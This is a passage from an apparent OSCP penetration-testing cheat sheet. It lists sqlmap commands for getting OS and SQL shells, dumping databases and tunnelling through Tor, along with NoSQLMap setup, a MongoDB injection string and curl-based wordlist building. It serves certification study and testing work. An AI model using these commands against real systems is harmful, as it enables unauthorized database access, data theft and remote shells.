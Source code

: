             - Specify parameter to exploit in 'nice' URIs (exploits param1)
             
                `sqlmap --dbms=mysql -u "http://www.example.com/param1/value1*/param2/value2" --dbs `
                     
            - Get OS shell  
              
                 `sqlmap --dbms=mysql -u "$URL" --os-shell`
                       
            - Get SQL shell  
                       
                 `sqlmap --dbms=mysql -u "$URL" --sql-shell`
                        
             - SQL query  
                
                `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --sql-query "SELECT * FROM $TABLE;"` 
                         
             - Use Tor Socks5 proxy  
                 
                `sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u "$URL" --dbs`
       
       
-   **NoSQLMap Examples**
       You may encounter NoSQL instances like MongoDB in your OSCP journies (`/cgi-bin/mongo/2.2.3/dbparse.py`).  NoSQLMap can help you to automate NoSQLDatabase enumeration. 
       
  -   NoSQLMap Installation 
   
        ```bash
        git clone https://github.com/codingo/NoSQLMap.git
        cd NoSQLMap/
        ls
        pip install couchdb
        pip install pbkdf2
        pip install ipcalc
        python nosqlmap.py
        ```


   -   Often you can create an exception dump message with MongoDB using a malformed NoSQLQuery such as:
   
      `a'; return this.a != 'BadData’'; var dummy='!`
      
      

-   Password Attacks
    --------------------------------------------------------------------------------------------------------------

    -   AES Decryption  
        http://aesencryption.net/

    -   Convert multiple webpages into a word list
        ```bash
        for x in 'index' 'about' 'post' 'contact' ; do \
          curl http://$ip/$x.html | html2markdown | tr -s ' ' '\\n' >> webapp.txt ; \
        done
        ```

    -   Or convert html to word list dict  
        `html2dic index.html.out | sort -u > index-html.dict`
